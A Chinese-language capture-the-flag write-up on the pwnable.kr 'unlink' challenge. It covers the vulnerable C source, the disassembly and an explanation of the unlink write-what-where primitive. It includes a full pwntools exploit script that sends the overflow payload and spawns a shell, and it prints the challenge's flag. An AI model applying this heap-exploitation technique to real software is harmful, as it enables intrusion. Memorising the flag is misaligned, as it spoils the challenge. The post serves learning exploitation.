 ```yaml
---

layout: post

title: 'pwnable.kr之初探unlink'

date: '2017-04-23'

header-img: "img/home-bg.jpg"

tags:
     - unlink
author: 'De4dCr0w'

---
```


> unlink源代码

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	typedef struct tagOBJ{
		struct tagOBJ* fd;
		struct tagOBJ* bk;
		char buf[8];
	}OBJ;
	
	void shell(){
		system("/bin/sh");
	}
	
	void unlink(OBJ* P){
		OBJ* BK;
		OBJ* FD;
		BK=P->bk;
		FD=P->fd;
		FD->bk=BK;
		BK->fd=FD;
	}
	int main(int argc, char* argv[]){
		malloc(1024);
		OBJ* A = (OBJ*)malloc(sizeof(OBJ));
		OBJ* B = (OBJ*)malloc(sizeof(OBJ));
		OBJ* C = (OBJ*)malloc(sizeof(OBJ));
	
		// double linked list: A <-> B <-> C
		A->fd = B;
		B->bk = A;
		B->fd = C;
		C->bk = B;
	
		printf("here is stack address leak: %p\n", &A);
		printf("here is heap address leak: %p\n", A);
		printf("now that you have leaks, get shell!\n");
		// heap overflow!
		gets(A->buf);
	
		// exploit this unlink!
		unlink(B);
		return 0;
	}

首先要先知道为什么unlink会触发漏洞发生，主要是在

	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;

我们将想要写入的信息和地址分别填充在BK和FD中，第三行和第四行进行赋值，就可以把信息写入相应的地址，信息和地址可以互换，只要计算好相应的偏移地址即可。之前一直不理解我把BK和FD赋值后，那FD->bk和BK->fd不就指向无效地址了吗，不会报错吗？  
这里对结构的汇编形式理解不到位，堆都是定义的结构：  
  
	struct malloc_chunk {

      INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
      INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

      struct malloc_chunk* fd;         /* double links -- used only if free. */
      struct malloc_chunk* bk;

      /* Only used for large blocks: pointer to next larger size.  */
      struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
      struct malloc_chunk* bk_nextsize;
    };

结构体是分配了一段连续的内存，所以寻找结构体成员只需要结构体首地址+相应的偏移地址，回到之前，FD->bk,实际上FD这个结构体首地址加上12偏移（32位机器下），而BK
->fd则为BK的地址加上8。（glibc malloc进行unlink操作时会将FD强制看作malloc_chunk结构体）。    
反汇编的main函数：

	Dump of assembler code for function main:
	   0x0804852f <+0>:	lea    ecx,[esp+0x4]
	   0x08048533 <+4>:	and    esp,0xfffffff0
	   0x08048536 <+7>:	push   DWORD PTR [ecx-0x4]
	   0x08048539 <+10>:	push   ebp
	   0x0804853a <+11>:	mov    ebp,esp
	   0x0804853c <+13>:	push   ecx
	   0x0804853d <+14>:	sub    esp,0x14
	   0x08048540 <+17>:	sub    esp,0xc
	   0x08048543 <+20>:	push   0x400
	   0x08048548 <+25>:	call   0x80483a0 <malloc@plt>
	   0x0804854d <+30>:	add    esp,0x10
	   0x08048550 <+33>:	sub    esp,0xc
	   0x08048553 <+36>:	push   0x10
	   0x08048555 <+38>:	call   0x80483a0 <malloc@plt>
	   0x0804855a <+43>:	add    esp,0x10
	   0x0804855d <+46>:	mov    DWORD PTR [ebp-0x14],eax
	   0x08048560 <+49>:	sub    esp,0xc
	   0x08048563 <+52>:	push   0x10
	   0x08048565 <+54>:	call   0x80483a0 <malloc@plt>
	   0x0804856a <+59>:	add    esp,0x10
	   0x0804856d <+62>:	mov    DWORD PTR [ebp-0xc],eax
	   0x08048570 <+65>:	sub    esp,0xc
	   0x08048573 <+68>:	push   0x10
	   0x08048575 <+70>:	call   0x80483a0 <malloc@plt>
	   0x0804857a <+75>:	add    esp,0x10
	   0x0804857d <+78>:	mov    DWORD PTR [ebp-0x10],eax
	   0x08048580 <+81>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x08048583 <+84>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x08048586 <+87>:	mov    DWORD PTR [eax],edx
	   0x08048588 <+89>:	mov    edx,DWORD PTR [ebp-0x14]
	   0x0804858b <+92>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x0804858e <+95>:	mov    DWORD PTR [eax+0x4],edx
	   0x08048591 <+98>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x08048594 <+101>:	mov    edx,DWORD PTR [ebp-0x10]
	   0x08048597 <+104>:	mov    DWORD PTR [eax],edx
	   0x08048599 <+106>:	mov    eax,DWORD PTR [ebp-0x10]
	   0x0804859c <+109>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x0804859f <+112>:	mov    DWORD PTR [eax+0x4],edx
	   0x080485a2 <+115>:	sub    esp,0x8
	   0x080485a5 <+118>:	lea    eax,[ebp-0x14]
	   0x080485a8 <+121>:	push   eax
	   0x080485a9 <+122>:	push   0x8048698
	   0x080485ae <+127>:	call   0x8048380 <printf@plt>
	   0x080485b3 <+132>:	add    esp,0x10
	   0x080485b6 <+135>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x080485b9 <+138>:	sub    esp,0x8
	   0x080485bc <+141>:	push   eax
	   0x080485bd <+142>:	push   0x80486b8
	   0x080485c2 <+147>:	call   0x8048380 <printf@plt>
	   0x080485c7 <+152>:	add    esp,0x10
	   0x080485ca <+155>:	sub    esp,0xc
	   0x080485cd <+158>:	push   0x80486d8
	   0x080485d2 <+163>:	call   0x80483b0 <puts@plt>
	   0x080485d7 <+168>:	add    esp,0x10
	   0x080485da <+171>:	mov    eax,DWORD PTR [ebp-0x14]
	   0x080485dd <+174>:	add    eax,0x8
	   0x080485e0 <+177>:	sub    esp,0xc
	   0x080485e3 <+180>:	push   eax
	   0x080485e4 <+181>:	call   0x8048390 <gets@plt>
	   0x080485e9 <+186>:	add    esp,0x10
	   0x080485ec <+189>:	sub    esp,0xc
	   0x080485ef <+192>:	push   DWORD PTR [ebp-0xc]
	   0x080485f2 <+195>:	call   0x8048504 <unlink>
	   0x080485f7 <+200>:	add    esp,0x10
	   0x080485fa <+203>:	mov    eax,0x0
	   0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
	   0x08048602 <+211>:	leave  
	   0x08048603 <+212>:	lea    esp,[ecx-0x4]
	   0x08048606 <+215>:	ret    
	End of assembler dump.

攻击点：给A堆赋值时使用了gets函数，存在溢出B堆的可能，并在gets函数后调用了unlinkB堆，存在unlink漏洞。  
在unlinkB堆后，
		
       0x080485f2 <+195>:	call   0x8048504 <unlink>
 	   0x080485f7 <+200>:	add    esp,0x10
	   0x080485fa <+203>:	mov    eax,0x0
	   0x080485ff <+208>:	mov    ecx,DWORD PTR [ebp-0x4]
	   0x08048602 <+211>:	leave  
	   0x08048603 <+212>:	lea    esp,[ecx-0x4]
	   0x08048606 <+215>:	ret  

leave相当于mov esp ebp；pop ebp，此时esp指向的是eip，最后ret弹出的是esp的所指向的地址，我们需要做的是让esp指向shellcode的位置。而esp指向的地址是由[ecx-0x4]赋值，并且ecx保存在[ebp-0x4],为什么是这样，可以看main函数开头的堆栈情况：

	0x0804852f <+0>:	lea    0x4(%esp),%ecx
   	0x08048533 <+4>:	and    $0xfffffff0,%esp
   	0x08048536 <+7>:	pushl  -0x4(%ecx)
   	0x08048539 <+10>:	push   %ebp
   	0x0804853a <+11>:	mov    %esp,%ebp
   	0x0804853c <+13>:	push   %ecx

分析main的汇编代码我们知道堆A，B，C在栈中的情况：  

* A:[ebp-0x14]
* B:[ebp-0x0c]
* C:[ebp-0x10]

所以A堆和ecx在栈中的位置相差0x14-0x4=0x10=16  
shellcode的位置放在A中buf的前四个字节，所以它相对于A堆的位置为8，所以shellcode=A堆位置+8，但给esp赋值的是[ecx-0x4],所以shellcode=[ecx-0x4],从而推出：

> A的栈位置+16=[ebp-0x4]=ecx=shellcode+0x4=（A堆位置+8）+4=A堆位置+12  

附上unlink.py: 

	from pwn import *
	#context(log_level="debug")
	s =  ssh(host='pwnable.kr',
	         port=2222,
	         user='unlink',
	         password='guest'
	        )
	p = s.process("./unlink")
	
	p.recvuntil("here is stack address leak: ")
	stack_addr = int(p.recv(10),16)
	p.recvuntil("here is heap address leak: ")
	heap_addr = int(p.recv(9),16)
	
	p.recvuntil("now that you have leaks, get shell!\n")
	
	shell_buf = 0x080484eb
	buf = 'AAAA'
	presizeB = 'AAAA'
	sizeB = 'AAAA'
	#方法一
	fdB = heap_addr + 12
	bkB = stack_addr + 16
	'''
	#方法二
	或者交换位置，但要重新计算偏移值
	bkB = heap_addr + 12
	fdB = stack_addr + 12
	'''
	payload = p32(shell_buf) + buf + presizeB + sizeB + p32(fdB) + p32(bkB)
	
	p.sendline(payload)
	
	p.interactive()

char buf[8]是8个字节，struct tagOBJ* fd;struct tagOBJ* bk;各四个字节。 
 
* 方法一主要是利用BK->fd=FD;前面的FD->bk=BK;没有影响，因为这里的chunk是自己定义的，缺少prev_size和size字段，fd就是第一个字段，实际中bkB=stack_addr + 8,要减去pre_size和size两个字段的8个字节。  
* 方法二则是利用FD->bk=BK;分析同方法一

> flag:conditional_write_what_where_from_unl1nk_explo1t